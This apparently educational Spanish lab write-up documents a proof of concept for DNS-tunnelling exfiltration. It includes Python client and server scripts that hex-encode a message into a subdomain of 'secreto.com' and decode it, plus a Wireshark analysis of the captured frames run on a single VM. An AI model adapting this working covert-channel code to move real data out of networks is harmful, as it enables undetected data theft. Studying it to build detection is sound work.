

# DNSpy — Exfiltración de datos mediante consultas DNS (PoC)

Esta es una prueba de concepto que muestra cómo se puede **esconder un mensaje dentro de una consulta DNS** y enviarlo de una máquina a otra sin que parezca nada raro. Se usa Python con la librería `dnspython` y se captura el tráfico con Wireshark para ver cómo viaja la información.

## Índice

1. [Arquitectura de la prueba](#1-arquitectura-de-la-prueba)
2. [Comprobación del entorno](#2-comprobación-del-entorno)
3. [Scripts](#3-scripts)
4. [Instalación de dependencias](#4-instalación-de-dependencias)
5. [Captura con Wireshark](#5-captura-con-wireshark)
6. [Ejecución](#6-ejecución)
7. [Análisis de la captura](#7-análisis-de-la-captura)

---

## 1. Arquitectura de la prueba

> **Importante:** en esta prueba, el cliente y el servidor se ejecutan en **la misma máquina** (una VM con IP fija `192.168.6.100`). No son dos ordenadores distintos. Por eso, en la captura de Wireshark, el origen y el destino de los paquetes muestran la misma IP. El cliente se configura para enviar los datos a esa IP (en vez de a `127.0.0.1`, que es la dirección local de la propia máquina) para obligar a que el tráfico pase por la tarjeta de red de verdad, y así poder capturarlo con Wireshark.

Así funciona el proceso, paso a paso:



El mensaje que se quiere enviar en secreto (`datos ocultos`) no viaja en un campo raro ni oculto: va metido dentro del propio nombre de dominio que se consulta. Por eso este tipo de tráfico es difícil de detectar: a simple vista parece una consulta DNS normal y corriente.

---

## 2. Comprobación del entorno

Antes de ejecutar los scripts, se comprobó qué versión de Python 3 había instalada, para asegurarnos de que fuera compatible:

```bash
python3 --version
```

---

## 3. Scripts

Para que la prueba usara la IP real de la red (y no `127.0.0.1`), el servidor se dejó escuchando en todas las interfaces de red, y en el cliente se puso directamente la IP fija de la máquina.

### 3.1 Servidor — `dns_server_1_peticion.py`

Este script se queda escuchando en `0.0.0.0:53/UDP` (es decir, en todas las interfaces de red, puerto 53). Cuando le llega una consulta, saca el subdominio, lo convierte de hexadecimal a texto normal, y responde con una IP falsa (`4.3.2.1`).

```python
#!/usr/bin/python3
# Archivo ....: dns_server_1.py
# Autor ......: Gabriel Martí
# Fecha ......: 20/12/2022

import socket
import dns.message
import dns.name
import dns.rdata
import dns.rdataclass
import dns.rdatatype
import dns.rrset

# Declaración de variables
servidor = "0.0.0.0"        # Escucha en todas las interfaces de red
puerto = 53                 # Puerto 53 DNS
buffer = 4096               # Tamaño buffer
dominio = "secreto.com."    # Nombre de dominio absoluto para la respuesta
ip_respuesta = "4.3.2.1"    # IP falsa de respuesta

# Crear un socket servidor UDP
server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_socket.bind((servidor, puerto))

print("Esperando 1 peticion DNS...")

while True:
    # Recibir una petición del cliente
    request_data, client_address = server_socket.recvfrom(buffer)

    # Deserializar la petición
    request = dns.message.from_wire(request_data)

    print("Recibida petición DNS")
    print(request)

    # Extraer el nombre de dominio completo de la petición
    full_domain_name = request.question[0].name.to_text()
    print("Nombre dominio completo: " + full_domain_name)

    # Extraer la parte del nombre de subdominio
    subdomain = full_domain_name.split(".")[0]
    print("Subdominio recibido: " + subdomain)

    try:
        # Convierte nombre de subdominio en hexadecimal a los datos reales
        datosreales = bytes.fromhex(subdomain).decode()
        print("Mensaje oculto recibido: " + datosreales)
    except Exception as e:
        print("No hay datos en hexadecimal")

    # Prepara la respuesta DNS
    response = dns.message.make_response(request)
    response.id = request.id
    response.set_rcode(dns.rcode.NOERROR)

    # Añade la respuesta A
    response.answer.append(dns.rrset.from_text(dominio,
                                               300,
                                               dns.rdataclass.IN,
                                               dns.rdatatype.A,
                                               ip_respuesta))

    # Serializar y enviar respuesta
    response_data = response.to_wire()
    server_socket.sendto(response_data, client_address)

    # Rompe el bucle tras la primera petición
    break
```

### 3.2 Cliente — `dns_client_1_peticion.py`

Aquí se cambió la variable `servidor`: en vez de `127.0.0.1`, se puso la IP fija de la VM (`192.168.6.100`), para que los paquetes salieran de verdad por la red.

```python
#!/usr/bin/python3
# Archivo ....: dns_client_1.py
# Autor ......: Gabriel Martí
# Fecha ......: 20/12/2022

import dns.message
import dns.query

# --- CAMBIO REALIZADO ---
# Se cambió "127.0.0.1" por la IP de la interfaz estática de la VM
servidor = "192.168.6.100"                  # IP estática de la VM
puerto = 53                                 # Puerto DNS
dominio = "secreto.com"                     # Nombre de dominio inventado
subdominio = "6461746f73206f63756c746f73"   # "datos ocultos" en hexadecimal

# Formar el FQDN completo con los datos exfiltrados
dominiocompleto = subdominio + "." + dominio

print("Inicio del envio")

# Crear consulta DNS de Registro A
request = dns.message.make_query(dominiocompleto, dns.rdatatype.A)

# Enviar la petición al servidor DNS y esperar respuesta (timeout de 5s)
response = dns.query.udp(request, servidor, timeout=5)

# Imprimir la respuesta recibida
print("Respuesta: ", response)

print("Fin del envío")
```

---

## 4. Instalación de dependencias

Al intentar ejecutar los scripts, Python dio un error porque no encontraba el módulo `dns.message`. En Debian 13 se solucionó instalando la librería desde los repositorios oficiales:

```bash
sudo apt update
sudo apt install python3-dnspython -y
```

---

## 5. Captura con Wireshark

Primero se instaló Wireshark:

```bash
sudo apt install wireshark -y
```

Y se abrió con permisos de superusuario (necesarios para capturar tráfico de red):

```bash
sudo wireshark
```

Dentro del programa:

- Se eligió la interfaz **any** (es decir, capturar de todas las interfaces).
- Se escribió el filtro `dns` para ver solo el tráfico DNS y no mezclarlo con otros paquetes.

---

## 6. Ejecución

Con Wireshark ya capturando en segundo plano, se abrieron dos terminales en la carpeta donde estaban los scripts (`~/Desktop`):

**Terminal 1 — Servidor.** Se ejecuta con `sudo` porque el puerto 53 solo lo puede abrir el administrador del sistema:

```bash
sudo python3 dns_server_1_peticion.py
```

El servidor se queda esperando y muestra: `Esperando 1 peticion DNS...`

**Terminal 2 — Cliente:**

```bash
sudo python3 dns_client_1_peticion.py
```

Al lanzar el cliente, el servidor recibe la consulta, convierte el subdominio `6461746f73206f63756c746f73` de hexadecimal a texto (`datos ocultos`), responde con la IP `4.3.2.1`, y los dos programas terminan sin errores.


---

## 7. Análisis de la captura

### Qué mirar y por qué

En la captura hay que fijarse en tres sitios, y cada uno nos dice algo distinto:

| Dónde mirar | Qué nos dice |
|---|---|
| **Source / Destination** | Que el tráfico pasó de verdad por la red, y no por la conexión local de la máquina |
| **Info** | El mensaje escondido, que se puede leer directamente dentro del nombre de dominio consultado |
| **Panel de bytes (hexdump)** | Que ese mismo dato va metido dentro de un paquete DNS totalmente normal, sin nada cifrado ni añadido |

### Trama 1 — Petición (Query)

- **Source / Destination:** `192.168.6.100 → 192.168.6.100`. Esto confirma que el paquete salió por la interfaz de red real y no por `127.0.0.1`. Como el cliente y el servidor son la misma máquina, el origen y el destino coinciden, pero lo importante es que **no sea loopback**: así el paquete es igual al que vería un firewall o alguien escuchando el tráfico de una red real.
- **Tamaño (Length):** 100 bytes.
- **Info:** `Standard query 0x4a2e A 6461746f73206f63756c746f73.secreto.com`

  El subdominio, traducido, dice esto:

  ```
  6461746f73206f63756c746f73  (hexadecimal)
          ↓
  "datos ocultos"             (texto normal)
  ```

### Trama 2 — Respuesta (Response)

- **Source / Destination:** `192.168.6.100 → 192.168.6.100`.
- **Tamaño (Length):** 116 bytes.
- **Info:** `Standard query response 0x4a2e A 6461746f73206f63756c746f73.secreto.com` — es la respuesta del servidor, con código `NOERROR` y la IP falsa `4.3.2.1` para el dominio `secreto.com`.

**Panel de bytes:** si se selecciona la trama de respuesta, en el panel de la derecha se puede leer en ASCII el texto `secreto.com` y la IP `4.3.2.1` dentro de los bytes del paquete. No hay ningún campo especial ni nada fuera de lo normal: el dato va escondido dentro de la estructura habitual de un paquete DNS.


### Por qué esto importa en seguridad

Si alguien está vigilando la red con un sniffer, o si hay un firewall que inspecciona los paquetes en profundidad, estas dos tramas parecen una consulta DNS cualquiera: mismo protocolo, mismo puerto (53/UDP), misma estructura de siempre. No hay nada que llame la atención a simple vista. El mensaje secreto está disfrazado como si fuera solo el nombre de un subdominio que se quiere resolver.

Por eso el DNS es un canal tan usado para **sacar datos de una red sin permiso (exfiltración)** o para que un malware hable con su servidor de control: casi ninguna red bloquea el tráfico DNS saliente (si lo hiciera, dejaría de funcionar Internet para esa red), y normalmente se revisa con mucha menos atención que el tráfico web.

### Un límite real de esta técnica: el tamaño

El tamaño de las tramas (100 y 116 bytes) no es casualidad: el protocolo DNS tiene límites fijos.

- Cada parte del nombre de dominio (entre puntos) puede tener como máximo **63 caracteres**.
- El nombre completo no puede pasar de **253 caracteres** en total.

Esto quiere decir que en una sola consulta solo se puede esconder un mensaje bastante corto, porque al pasar el texto a hexadecimal ocupa el doble de caracteres que el original. Si se quisiera enviar un mensaje más largo, habría que **partirlo en varias consultas DNS**, que es justo lo que hacen herramientas reales de este tipo, como `dnscat2` o `iodine`.
